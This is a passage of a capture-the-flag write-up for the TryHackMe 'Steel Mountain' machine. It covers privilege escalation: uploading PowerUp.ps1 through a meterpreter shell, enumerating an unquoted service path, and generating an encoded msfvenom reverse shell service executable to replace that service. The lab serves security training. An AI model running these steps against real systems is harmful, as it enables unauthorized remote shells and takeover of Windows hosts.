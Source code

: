 <br />
<br />

## 3. Privilege escalation using Metasploit

<br />

Follow along with the instructions and download the [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) script that we can place on the target via our `meterpreter` shell.

```
meterpreter > upload /root/TryHackMe/Machines/Steel\ Mountain/PowerUp.ps1
[*] uploading  : /root/TryHackMe/Machines/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/TryHackMe/Machines/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /root/TryHackMe/Machines/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
```

<br />

Before running the script make sure to load the `powershell` extension in `meterpreter` and initialize it to successfully enumerate the box.

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
                
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

<br />

Reading through the information we obtained from the script we notice an unquoted service path vulnerability with `WriteAttributes` permissions and a `True` value for `CanRestart`, which means we can stop and replace this service on the target machine with a reverse shell, then restart it to gain root access.

Let's follow the instructions and create a payload locally that we will use to replace this service.

```
╭─root@kali ~/TryHackMe/Machines/Steel Mountain  
╰─➤  msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_HOST LPORT=LOCAL_PORT -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: ASCService.exe
```
